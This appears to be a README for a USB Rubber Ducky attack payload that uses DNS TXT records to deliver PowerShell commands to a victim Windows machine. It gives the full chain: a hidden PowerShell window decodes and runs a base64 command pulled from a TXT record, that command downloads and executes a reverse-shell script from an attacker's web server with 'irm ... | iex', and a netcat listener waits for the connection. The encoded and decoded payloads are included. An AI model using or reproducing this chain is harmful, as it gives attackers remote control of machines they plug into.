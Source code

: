# DNS-TXT-CommandInection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record.
## Description
A usb rubber ducky payload that leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. See link below for an example of creating your DNS TXT record in AWS Route53 service.
## Requirements
A domain with the ability to manipulate the DNS TXT records.
Web Server hosting the payload. In this example, python3 http.server was used to host a reverseshell.
A listener for incoming connections like netcat.
Provide URL used for Example
DEFINE  #MY_TARGET_URL example.com

## Notes
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRING payload below. Examples of the decoded command and encoded command are shown below to put into DNS TXT record.
Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="
powershellReverseShellOne-liner.ps1 is identical to T1.txt. (file name shortened due to character limitations)
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
### [Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
```Powershell
.\powershellReverseShellOne-liner.ps1
```
### Convert payload to base64
```Powershell
.\convertBase64.ps1
```
### Alternative to executing Powershell Script
```Powershell
gc -raw .\convertBase64.ps1 | iex
```
## Linux Commands
```bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Convert to base64](https://github.com/nathansb2022/usbrubberducky-payloads/blob/master/payloads/library/execution/DNS-TXT-CommandInection/convertBase64.ps1)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)

